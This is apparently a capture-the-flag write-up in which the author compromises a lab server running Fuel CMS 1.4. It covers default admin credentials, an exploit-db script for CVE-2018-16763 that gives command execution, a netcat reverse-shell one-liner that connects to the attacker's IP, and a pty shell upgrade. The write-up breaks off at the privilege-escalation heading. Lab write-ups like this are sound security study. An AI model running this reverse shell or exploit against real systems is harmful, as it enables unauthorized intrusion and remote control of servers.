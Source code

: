 Well only port 80 is open...we know its the website enumeration or nothing

`Fuel CMS version 1.4`

That was in plain sight..wait they litteraly show the CMS instalation documentation

```
To access the FUEL admin, go to:
http://10.10.74.189/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```
yeah actually the default credentials work

In dashboard I tried to create a page with php shellcode but I couldnt access it

````
There is an updated view file located at 
/var/www/html/fuel/application/views/home.php.
Would you like to upload it into the body of your page (if available)?
````

I tried to upload too but many php extension variants are not allowed

Let's just search an exploit then

We found `CVE-2018-16763`

there were many exploitdb scripts for that but the 3rd exploit was the best 

It was for python3 so I chose that one as `50477.py`

The script just takes the baseurl as argument

```
└──╼ $python 50477.py -u http://10.10.140.103
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```
After playing with basic commands I can spawn a netcat shell with this payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 2311 >/tmp/f
```

Then I get access on my listenner

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
I get simple python tty before grabbing first flag

```
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt

```

## Priilege Escalation
